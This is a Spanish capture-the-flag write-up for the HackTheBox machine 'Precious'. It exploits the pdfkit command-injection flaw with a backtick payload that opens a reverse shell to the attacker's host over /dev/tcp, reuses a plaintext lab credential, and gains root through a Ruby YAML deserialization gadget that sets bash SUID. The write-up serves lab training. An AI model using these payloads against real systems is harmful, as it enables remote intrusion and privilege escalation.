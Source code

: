 ```yaml
---
title: "Precious - HackTheBox"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: /assets/images/CTFs/Precious-HTB/icon.png
  teaser_home_page: true  
  icon: /assets/images/HackTheBox-icon.png
categories:
  - HackTheBox 
  - Easy
tags:
  - Web
  - YAML
---
```

![Precious](/assets/images/CTFs/Precious-HTB/header.png)

# Reconocimiento 🔎 

---

Como siempre realizamos un pequeño escaneo de puertos rápido con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -p- 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/01.png)

Continuamos con un escaneo más avanzado de estos puertos.
```bash
sudo nmap -sV -p 22,80 10.10.11.189
```
![image](/assets/images/CTFs/Precious-HTB/02.png)

Ahora vamos a configurar nuestro fichero `/etc/hosts` para poder ver el servicio http.

![image](/assets/images/CTFs/Precious-HTB/03.png)

Nos dirigimos hacia la web y vamos a poder ver que la web es un convertidor web a pdf.

![image](/assets/images/CTFs/Precious-HTB/04.png)

Así que para probarlo vamos a lanzar un servidor web en nuestra máquina local a través de python.
```bash
python3 -m http.server 80
```
![image](/assets/images/CTFs/Precious-HTB/06.png)

Así que ahora vamos a probar introduciendo la IP de la máquina atacante en el servicio web de la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/07.png)

Y como podemos ver se ha convertido nuestra web en un PDF como se esperaba, así que vamos a descargar el PDF para analizarlo con la herramienta `exiftool`.

![image](/assets/images/CTFs/Precious-HTB/08.png)

Vemos que ha sido generado por una herramienta: `pdfkit v0.8.6`. La cuál si hacemos una búqueda en Google, podemos ver que es vulnerable a `Command Injection`.

![image](/assets/images/CTFs/Precious-HTB/09.png)

Tras informarme más sobre este CVE, podemos saber que tenemos que introducir el parametro `name` y dentro usar los ```backticks``` para inyectar nuestro comando.<br>
- Para saber más sobre CVE-2022-25765:<br>
[https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 ](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) 

<br><br>

# Explotación 🔑

---

Vamos a probar si funciona el exploit mencionado anteriormente:
```bash
http://10.10.14.46/?name=%20`pwd`
```
![image](/assets/images/CTFs/Precious-HTB/10.png)<br>
Y vemos que funciona correctamente.

![image](/assets/images/CTFs/Precious-HTB/11.png)<br>

Así manos a la obra. Este será el payload que voy a introducir:
```bash
http://10.10.14.46/?name=%20`/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/4747 0>&1'`
```

Antes de lanzar el payload vamos abrir un listener con netcat:
```bash
nc -nvlp 4747
```
<br>
Ejecutamos el payload y ya tendriamos acceso a la máquina víctima.

![image](/assets/images/CTFs/Precious-HTB/12.png)<br>

Tenemos acceso al usuario ruby pero no existe ningún fichero para ejecutar como root, así que vamos a pivotar al usuario henry mediante el fichero `config` en el directorio `.bundle` que he encontrado.
```bash
ruby@precious:/var/www/pdfapp$ cd ~
cd ~
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  3 06:34 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ ls -al .bundle 
ls -al .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  3 06:34 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
Accedemos al usuario henry mediante ssh:
```bash
ssh henry@10.10.11.189 
```
![image](/assets/images/CTFs/Precious-HTB/13.png)<br>
Ahora pasamos a la siguiente fase para terminar con el CTF.

<br><br>

# Escalada de Privilegios 🚀

---

Ya teniendo acceso al usuario henry el siguiente paso sería escalar los privilegios a root.<br><br>
Vamos a listar fichero que se ejecuta como root dentro del usuario henry:

![image](/assets/images/CTFs/Precious-HTB/14.png)<br>

Obtenemos el fichero `update_dependencies.rb` que podemos ejecutarlo como usuario root. Vamos a echarle un vistazo.

![image](/assets/images/CTFs/Precious-HTB/15.png)<br>

Mirando el código veo que utiliza un YAML.load, cuál es vulnerable a ataques de deserialización YAML.<br>
<br>
Puedes ver más sobre ataques de deserialización YAML en el siguiente enlace:<br>
[https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md](https://github.com/DevComputaria/KnowledgeBase/blob/master/pentesting-web/deserialization/python-yaml-deserialization.md)
<br><br>

Ahora podemos explotar con nuestro fichero `dependencies.yml`.

![image](/assets/images/CTFs/Precious-HTB/16.png)<br>
### dependencies.yml

```yml
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s /bin/bash
         method_id: :resolve
```
<br>

Ejecutar el fichero con permisos de ejecución root.

![image](/assets/images/CTFs/Precious-HTB/17.png)<br>
<br>
Y ya con esto tenemos el usuario root a nuestra disposición. Y poder conseguir la **FLAG**.

![image](/assets/images/CTFs/Precious-HTB/18.png)<br>
<br>

---

<br>
Espero que te haya servido de ayuda este post. Me ayudarías mucho si lo compartes en tus **RRSS**, GRACIAS!

